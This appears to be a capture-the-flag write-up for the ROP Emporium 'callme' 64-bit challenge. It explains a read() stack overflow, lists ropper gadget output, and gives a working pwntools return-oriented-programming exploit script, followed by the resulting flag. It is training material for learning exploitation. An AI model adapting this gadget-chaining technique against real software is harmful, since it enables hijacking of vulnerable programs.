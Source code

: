 # callme - 64 Bit
Program execution:
```
callme by ROP Emporium
x86_64

Hope you read the instructions...

> <input_here>
```
Run checksec: `checksec ./callme`
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
Same as usual, `main` calls `pwnme` which has a buffer overflow vulnerability due to unsafe usage of `read`. In this case 0x200 bytes can be read into a 32 byte buffer starting at address `rbp-0x20`:
```assembly
lea     rax, [rbp-0x20 {var_28}]
mov     edx, 0x200
mov     rsi, rax {var_28}
mov     edi, 0x0
call    read
```
With the knowledge we can control code flow, we can go about following the given instructions. We need to call `callme_one`, `callme_two` and `callme_three`. For each call there are 3 parameters: `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, `0xd00df00dd00df00d`.

To do the first function call we know we need to pop arguments 1-3 off the stack and into registers RDI, RSI, RDX, respectively, before calling `callme_one`.

Let's find some suitable gadgets for this task with `ropper`.
`ropper -f callme --search 'pop'`:
```
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: callme
0x000000000040099c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040099e: pop r13; pop r14; pop r15; ret;
0x00000000004009a0: pop r14; pop r15; ret;
0x00000000004009a2: pop r15; ret;
0x00000000004007bb: pop rbp; mov edi, 0x601070; jmp rax;
0x000000000040099b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040099f: pop rbp; pop r14; pop r15; ret;
0x00000000004007c8: pop rbp; ret;
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret;
0x00000000004009a3: pop rdi; ret;
0x000000000040093e: pop rdx; ret;
0x00000000004009a1: pop rsi; pop r15; ret;
0x000000000040093d: pop rsi; pop rdx; ret;
0x000000000040099d: pop rsp; pop r13; pop r14; pop r15; ret;
```
We need to pop 3 items off the stack and into RDI, RSI and RDX, so `pop rdi; pop rsi; pop rdx; ret;` is exactly what we are after. So our general structure for a payload to call one function (after padding and stack alignment) is:
* pop rdi; pop rsi; pop rdx; ret;
* `0xdeadbeefdeadbeef`
* `0xcafebabecafebabe`
* `0xd00df00dd00df00d`
* `callme_one` address

This will then be repeated for each of the functions.

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./callme"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
	gdb.attach(p, '''break main''')

pop_rdi_rsi_rdx_addr = rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx'])[0]
ret_addr = rop.find_gadget(['ret'])[0]

p.recvuntil(b'> ')

payload = b'A' * (0x20 + 0x8)
payload += p64(ret_addr)

for func in ['callme_one', 'callme_two', 'callme_three']:
	payload += p64(pop_rdi_rsi_rdx_addr)
	payload += p64(0xdeadbeefdeadbeef)
	payload += p64(0xcafebabecafebabe)
	payload += p64(0xd00df00dd00df00d)
	payload += p64(elf.symbols[func])

p.sendline(payload)

p.interactive()
```

And we get the flag:
```
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```
